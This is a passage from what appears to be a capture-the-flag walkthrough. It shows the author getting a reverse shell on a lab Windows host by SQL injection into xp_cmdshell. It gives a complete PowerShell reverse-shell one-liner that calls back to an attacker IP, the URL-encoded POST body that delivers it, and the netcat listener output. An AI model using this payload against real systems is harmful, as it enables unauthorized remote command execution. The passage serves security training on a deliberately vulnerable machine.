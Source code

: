 It also works to go right to a shell using a PowerShell one line reverse
shell. I’ll grab one (PowerShell #1 from
[revshells.com](https://www.revshells.com/)), and put it in. It took a good
deal of tinkering to get it to work. For one, I had to enclose the command in
`"`. For the parts inside that were already in double quotes, I tried single
quotes, but that didn’t work. However, escaping the double quotes with `\`
did. I’ll also need to escape `>`, as `xp_cmdshell` is invoking `cmd.exe`
which will process that as output redirection. I could just remove it (it’s
just printed as part of the shell prompt), or escape it with `^` (as shown
[here](https://www.robvanderwoude.com/escapechars.php), thanks to
[egre55](https://twitter.com/egre55) for the link). I’ll end up with the
`xp_cmdshell` string being:

    
    
    C:\windows\syswow64\windowspowershell\v1.0\powershell.exe "$client = new-object system.net.sockets.tcpclient(\"10.10.14.6\",443);$stream = $client.getstream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.read($bytes, 0, $bytes.length)) -ne 0){;$data = (new-object -typename system.text.asciiencoding).getstring($bytes,0, $i);$sendback = (iex $data 2>&1 | out-string );$sendback2 = $sendback + \"PS \" + (pwd).path + \"^> \";$sendbyte = ([text.encoding]::ascii).getbytes($sendback2);$stream.write($sendbyte,0,$sendbyte.length);$stream.flush()};$client.close()";
    

After URL-encoding and formatting that for the POST body, it looks like:

    
    
    logintype=3%3bexecute+xp_cmDshElL+'C%3a\windows\syswow64\windowspowershell\v1.0\powershell.exe+"$client+%3d+new-object+system.net.sockets.tcpclient(\"10.10.14.6\",443)%3b$stream+%3d+$client.getstream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.read($bytes,+0,+$bytes.length))+-ne+0){%3b$data+%3d+(new-object+-typename+system.text.asciiencoding).getstring($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+out-string+)%3b$sendback2+%3d+$sendback+%2b+\"PS+\"+%2b+(pwd).path+%2b+\"^>+\"%3b$sendbyte+%3d+([text.encoding]%3a%3aascii).getbytes($sendback2)%3b$stream.write($sendbyte,0,$sendbyte.length)%3b$stream.flush()}%3b$client.close()"'%3b&username=admin&password=admin&rememberme=ON&B1=Login
    

Passing that as the post body returns a shell (this shell shows a prompt after
the first command output):

    
    
    oxdf@hacky$ sudo rlwrap -cAr nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.72 49207
    whoami
    fighter\sqlserv
    PS C:\Windows\system32>
    

I’ll use the other shell, because it shows stderr, where as this one doesn’t.

## Shell as decoder

It’s actually not necessry to go to the decoder user, and I’ll show the
alternative paths at the end.

### Enumeration

